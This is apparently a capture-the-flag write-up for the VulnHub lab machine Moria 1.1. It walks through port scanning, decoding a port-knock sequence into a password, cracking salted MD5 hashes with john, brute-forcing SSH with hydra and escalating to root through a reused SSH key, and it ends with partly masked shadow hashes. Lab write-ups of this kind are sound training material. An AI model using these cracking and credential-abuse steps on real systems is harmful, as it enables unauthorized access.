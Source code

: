 [VulnHub] Moria: 1.1
===============
date: 17/Oct/2019
summary: This is the summary for an awesome post.
tags: oscp, vulnhub, writeups

## Overview
This is a writeup for VulnHub VM [Moria: 1.1](https://www.vulnhub.com/entry/moria-1,187/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_vulnhub_moria11/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Fri Oct 11 15:31:50 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.moria11/results/192.168.92.188/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.moria11/results/192.168.92.188/scans/xml/_quick_tcp_nmap.xml 192.168.92.188
Nmap scan report for 192.168.92.188
Host is up, received arp-response (0.0019s latency).
Scanned at 2019-10-11 15:32:02 PDT for 15s
Not shown: 997 closed ports
Reason: 997 resets
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.0.8 or later
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 6.6.1 (protocol 2.0)
| ssh-hostkey:
|   2048 47:b5:ed:e3:f9:ad:96:88:c0:f2:83:23:7f:a3:d3:4f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5gdKNO3UCeDGX36RIZSkcVHvWknoFBZe2IT96Gep79sECS7G2pO76RFdOCJMru0Ek9EQKhMhHTrVI0DWDJFp2apdEPVsqn8nuJKUCHbaL49frQtFnR64b5WoM+f7VgEN84S+iPmUCwwgIMjR5hoYCAJFdJNpE27ZguVbnnN+i1491TDIO/cN92Uut/T70C3bntlsptY9N+fR0hOdkLg+K+TT1zX2BZOw99OMn9ytt3kSi4DNaoDpn9GDOfXhqeQH/eJWmFNTsFSM2+GHOAZKc0Ichiqhxf3WHoGOnliH8XdV6ZNpjHA8jGCYVcPnkTk42nP7E9Ql7mabsi+L3Ugq3
|   256 85:cd:a2:d8:bb:85:f6:0f:4e:ae:8c:aa:73:52:ec:63 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCuLX/CWxsOhekXJRxQqQH/Yx0SD+XgUpmlmWN1Y8cvmCYJslOh4vE+I6fmMwCdBfi4W061RmFc+vMALlQUYNz0=
|   256 b1:77:7e:08:b3:a0:84:f8:f4:5d:f9:8e:d5:85:b9:34 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILxa4UjJJ2naeaBginolO5UHAS/rB0Wh5mtDLQuNUYaN
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Gates of Moria
MAC Address: 00:0C:29:84:7D:D1 (VMware)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 11 15:32:18 2019 -- 1 IP address (1 host up) scanned in 28.21 seconds
```

2\. We find a possible username from FTP banner:  
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.0.8 or later
|_banner: 220 Welcome Balrog!
```

3\. We find a few interesting directories from `gobuster` scan. Exploring the `http://192.168.92.188:80/w` link, we follow it till the `http://192.168.92.188/w/h/i/s/p/e/r/the_abyss/` link which shows some random text:  
```
http://192.168.92.188:80/cgi-bin/ (Status: 403) [Size: 210]
http://192.168.92.188:80/cgi-bin/.html (Status: 403) [Size: 215]
http://192.168.92.188:80/index.php (Status: 200) [Size: 85]
http://192.168.92.188:80/index.php (Status: 200) [Size: 85]
http://192.168.92.188:80/w (Status: 301)
http://192.168.92.188/w/h/i/s/p/e/r/the_abyss/
```

![writeup.enumeration.steps.3.1](/static/files/posts_vulnhub_moria11/screenshot01.png)  

![writeup.enumeration.steps.3.2](/static/files/posts_vulnhub_moria11/screenshot02.png)  

4\. This link shows text that seems to be hinting towards port knocking, but we don't know the ports to knock on. Upon further exploration, it seems one of the text also hints towards `listening` or sniffing that could prove useful:  

![writeup.enumeration.steps.4.1](/static/files/posts_vulnhub_moria11/screenshot03.png)  

5\. We run `wireshark` with a display filter `ip.addr == 192.168.92.188` to limit noise. In some time we see a bunch of `SYN` packets being sent to us from the target system. These packets are sent to following ports: `77, 101, 108, 108, 111, 110`  

![writeup.enumeration.steps.5.1](/static/files/posts_vulnhub_moria11/screenshot04.png)  

6\. We try to knock these ports on the target system but nothing changed. Upon further exploration, it is found that the sequence actually is the ASCII values for a string `Mellon` that could be the password for the only known username we have as of now: `Balrog`  
```
nmap -Pn --host-timeout 100 --max-retries 0 -sS -p 77, 101, 108, 108, 111, 110
python -c 'print "".join([chr(x) for x in [77, 101, 108, 108, 111, 110]])'
  Mellon
```

![writeup.enumeration.steps.6.1](/static/files/posts_vulnhub_moria11/screenshot05.png)  

![writeup.enumeration.steps.6.2](/static/files/posts_vulnhub_moria11/screenshot06.png)  

7\. We tried to connect to FTP service with the `Balrog/Mellon` credentials but for some reason it didn't work:  
```
ftp 192.168.92.188
  Balrog
  Mellon
```

![writeup.enumeration.steps.7.1](/static/files/posts_vulnhub_moria11/screenshot07.png)  

8\. From public writeups we find that the FTP user has access to the web root directory and this directory has an interesting file: `http://192.168.92.188/QlVraKW4fbIkXau9zkAPNGzviT3UKntl`  

![writeup.enumeration.steps.8.1](/static/files/posts_vulnhub_moria11/screenshot08.png)  

![writeup.enumeration.steps.8.2](/static/files/posts_vulnhub_moria11/screenshot09.png)  

9\. This file lists several usernames and what looks like password hashes. The page source also reveals the password salts and hash format as `MD5(MD5(Password).Salt)`. We find a good [reference](https://github.com/piyushcse29/john-the-ripper/blob/master/doc/DYNAMIC) for `john`'s dynamic hash variants. We create a `hashes` file by adding usernames, hashes and salts to it. We can now use `john` to crack these hashes:  
```
john --format=dynamic_6 hashes
```

![writeup.enumeration.steps.9.1](/static/files/posts_vulnhub_moria11/screenshot10.png)  

### Findings
#### Open Ports:
```
21/tcp  |  ftp   |  vsftpd 2.0.8 or later
22/tcp  |  ssh   |  OpenSSH 6.6.1 (protocol 2.0)
80/tcp  |  http  |  Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
```
#### Files
```
http://192.168.92.188/QlVraKW4fbIkXau9zkAPNGzviT3UKntl
```
#### Users
```
ftp: Balrog
```

## Phase #2: Exploitation
1\. We are able to successfully crack hashes for all users from this list and can now use `hydra` to check which username/password combo actually works. We find that the `Ori/spanky` credentials allow us SSH access to the target system:  
```
hydra -C creds 192.168.92.188 -t 4 ssh
ssh Ori@192.168.92.188
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_moria11/screenshot11.png)  

![writeup.exploitation.steps.1.2](/static/files/posts_vulnhub_moria11/screenshot12.png)  

## Phase #2.5: Post Exploitation
```
Ori@Moria> id
uid=1002(Ori) gid=1003(notBalrog) groups=1003(notBalrog)
Ori@Moria>  
Ori@Moria> uname
Linux Moria 3.10.0-514.el7.x86_64 #1 SMP Tue Nov 22 16:42:41 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
Ori@Moria>  
Ori@Moria> ifconfig
ens33:  flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.92.188  netmask 255.255.255.0  broadcast 192.168.92.255
        inet6 fe80::deef:db78:6f77:ebdf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:84:7d:d1  txqueuelen 1000  (Ethernet)
        RX packets 125  bytes 13540 (13.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 87  bytes 11999 (11.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
Ori@Moria>  
Ori@Moria> users
abatchy
Balrog
Ori
```

## Phase #3: Privilege Escalation
1\. We find that the user `Ori` has an entry for `localhost` within the `.ssh/known_hosts` file. This means, if local SSH configuration allows `root` user login and user `Ori`'s public key is in the `authorized_keys` of `root` user, we can SSH as `root` to localhost using `Ori`'s public key:  
```
ssh -i id_rsa root@192.168.92.188
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_moria11/screenshot13.png)  

![writeup.privesc.steps.1.2](/static/files/posts_vulnhub_moria11/screenshot14.png)  

2\. We gain elevated access using the above technqiue and can now view the flag to complete the challenge:  
```
cat /root/flag.txt
```

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_moria11/screenshot15.png)  

## Loot
### Hashes
```
root:$6$P7ElNgGp$fNzyy4OgqSR1ANJXTgbpzp4U42JXG1qJ55iNV10NVJoX5UWjtckWD0oHmcTOj0lqObyWhFu2y3udHVpHa........................
abatchy:$6$xEq/159Q$ScuKnynbwTBdFA4B9w6OqKxQpWPGpofi59McVuP6T1SADKhNy4n33Ovkk0hwZQkx72XriPSIrc2ubr16O........................
Balrog:$6$J6kuCfxq$L5ALsHRYfOu0bVV9MbW3.VZOUVEaKSWhfPIq5wXUFV407tpvH8Zx7WdbJeXgdWoPo9LU8eIznf0d44qoF........................
Ori:$6$1zYgjEIM$VQ0gvU7JjenS9WuiVjSeva8pbWnEXjqTmEdFnQRXKmTmXPXmt55/oyup40NiXD8J9GxmXF7DYiaHZDRshr.......................
```
### Credentials
```
ftp: Balrog/Mel...
ssh: Ori/span..
```

## References
* <https://www.vulnhub.com/entry/moria-11,187/>  
* <https://phackt.com/moria-vulnhub>  
